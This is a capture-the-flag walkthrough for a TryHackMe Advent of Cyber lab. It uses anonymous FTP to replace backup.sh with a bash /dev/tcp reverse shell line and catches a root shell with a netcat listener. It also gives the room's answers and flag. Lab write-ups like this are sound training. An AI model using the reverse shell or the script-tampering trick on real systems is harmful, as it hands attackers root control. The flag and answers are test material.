# _**adventofcyber2 Day 9 (FTP +Netcat)**_

    https://tryhackme.com/room/adventofcyber2

`First do FTP to the {machine IP}`

    ftp {machine IP}

`Name :anonymous`



--------------------------------------------------------


`on ftp you can find public directory which has data access`





    public

--------------------------------------------------------
`let dig in into public directory`
`there you can find two files `



`download both of it using command`

    get backup.sh 
    get shoppinglist.txt

`Now let's see our tun0 ip using command`
    
    ifconfig

`copy that tun0 ip and now edit the backup.sh file with reverse shell command`

    bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1

`replace Your_TryHackMe_IP with you tun0 ip`



`now listen on port 4444 with netcat command:`

    nc -nvlp 4444

`now on ftp /public directory `
`upload the backup.sh edited file using command`

    put backup.sh

`note you have to be on same directory that you have stored backup.sh edited file before ftp connection`

`now you will get root reverse shell connection on your netcat terminal`



--------------------------------------------------------
`let's answers all the questions now`



`yoo! easy right`

-----------------------------------------------------------


`remember we had downloaded shoppinglist.txt file along with backup.sh`
`time to see what's inside it `



`yoo we got our answer`



    The Polar Express

--------------------------------------------------------


`yoo! we have reverse shell root connection right `

`let's see what's in there`



`we got our answer again`



    THM{even_you_can_be_santa}
----------------------------------------------------------
# _*Thank You*_

